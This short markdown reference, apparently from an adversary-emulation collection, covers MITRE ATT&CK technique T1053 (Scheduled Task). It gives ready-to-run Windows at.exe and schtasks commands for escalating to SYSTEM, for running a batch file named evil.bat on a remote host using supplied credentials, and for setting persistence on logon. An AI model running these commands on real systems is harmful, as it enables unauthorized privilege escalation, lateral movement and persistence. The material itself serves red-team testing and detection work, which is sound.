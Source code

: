 ## Scheduled Task

MITRE ATT&CK Technique: [T1053](https://attack.mitre.org/wiki/Technique/T1053)


## at.exe

Note: deprecated in Windows 8+

### Privileged Escalation

This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

Input:

    at 13:20 /interactive cmd

Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10

Input:

    schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
